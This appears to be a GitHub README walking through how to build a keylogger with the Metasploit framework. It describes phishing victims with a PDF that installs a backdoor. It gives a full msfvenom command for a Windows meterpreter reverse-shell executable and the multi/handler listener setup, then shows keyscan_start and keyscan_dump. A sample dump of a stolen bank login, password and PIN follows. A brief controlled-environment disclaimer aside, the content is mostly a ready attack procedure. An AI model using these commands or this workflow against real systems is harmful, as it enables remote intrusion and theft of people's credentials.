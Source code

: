 # Building a keylogger using Metasploit framework
# $${\color{red}Welcome \space \color{lightblue}To \space \color{orange}Seyigate}$$

Help suport this project!!!

<a href="https://www.buymeacoffee.com/seyiphysica" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>

This project should be only take place in a control environment and written permission must be given by the system owner.
Seyigate will not be liable to any destructive occurrence in the network and system infrastructure. 

Check out below to learn how to use the metasploit framework. This project was explained in a simplex term and proof of concept included, however they work great! Feel free to fork and improve it if you want. Be sure to check out the [issues](https://github.com/Seyigate/gate_Keylogger/issues) or [pull requests](https://github.com/Seyigate/gate_Keylogger/pulls) to see if your problem has been fixed, or to help out others.


**Introduction** 

This project created a Keyloggerusing Metasploit framework, uses payload as mode of operation.

A payload is a piece of code that executes when hackers exploit a vulnerability. In other words, it’s an exploit module. It’s usually composed of a few commands that will run on the targeted operating system to steal data and other malicious acts.

Keyloggers are a particularly insidious type of program that can record and steal consecutive keystrokes (and much more) that the user enters on a device. 

The term keylogger, or “keystroke logger,” is self-explanatory: Software that logs what you type on your keyboard. However, keyloggers can also enable you to eavesdrop on you, watch you on your system camera, or listen over your smartphone’s microphone.

It’s not unlikely to find harmful payloads in an email attachment. One of the most effective ways to attack or compromise targeted system infrastructure is via phishing email 

**send emails with an attached .pdf file containing a malicious payload <sup>**keylogger**</sup> that will install a backdoor.**

If the victim downloads the file and double-clicks to open it, which will triggers the code in the background. This allows for serving a shell to access the victim’s computer when the victim sends a TCP connection.

Finally, the threat actor will be able to use payloads installed on the targeted machine to record and steal consecutive keystrokes (and much more) that the user enters on a device such as bank user credentials and lot more. 


# **Content**
* [Building the keylogger using Metasploit-framework](https://github.com/Seyigate/gate_Keylogger/blob/main/Building%20the%20keylogger%20using%20Metasploit-framework)

* ## gate_keylogger
The aim is to create a payload called Meterpreter using Inbuilt Metasploit-framework see- [metasploit-unleashed](https://www.offsec.com/metasploit-unleashed/meterpreter-basics/)

Metasploit is handy for generating a reverse shell. The following command generates a reverse TCP shell with the Metasploit framework:
It generate a Windows reverse shell executable that will connect back to us on port 4444.
```
 ┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.2 LPORT=4444 -f exe -o keyshell.exe
```

For the purpose of this project, A listener interactive shell will be initiated, this will allows for serving a shell to access
the targeted machine when the victim sends a TCP connection to record and steal consecutive keystrokes that the user enters on a device.

```
  ┌──(kali㉿kali)-[~]
    └─$ msfconsole
```

In msfconsole, select an exploit module, which is exploit/multi/handler
multi/handler exploit is a stub that handles exploits launched outside of the framework.
it is also a remote exploit module, which can also engage multiple hosts.

```
  msf6 > use exploit/multi/handler
  msf6 exploit(multi/handler) >show info
```
 When using the exploit/multi/handler module, we still need to tell it which payload to expect so we configure it to have the same settings as the executable we generated.
 
```
  msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
  msf6 exploit(multi/handler) > show options
```

 Then configure the parameter appropriately
 
```
 msf6 exploit(multi/handler) > set LHOST 192.168.50.2
 msf6 exploit(multi/handler) > set LPORT 4444
```
Now that we have everything set up and ready to go, 
We run exploit for the multi/handler and execute our generated executable on the victim. 
The multi/handler handles the exploit for us and presents us our shell.

```
    msf6 exploit(handler) > exploit
```
The keyscan_start command starts the keylogging feature on the remote machine.
    Starting the keystroke sniffer ...
```
 meterpreter> keyscan_start    
```
 Starting the keystroke sniffer ...
 The keyscan_dump command is a keylogger feature. You must use the keyscan_start command before using keyscan_dump
   
```
  meterpreter> keyscan_dump
```
 Dumping capture keystrokes ...

    <SHIFT> www.baclaysbank.co.uk
    <SHIFT>yinkajah@gmail.com
    <CR> R2jshb!@(*&^HB
      <CR>pin: 126782
     snip....


   




  



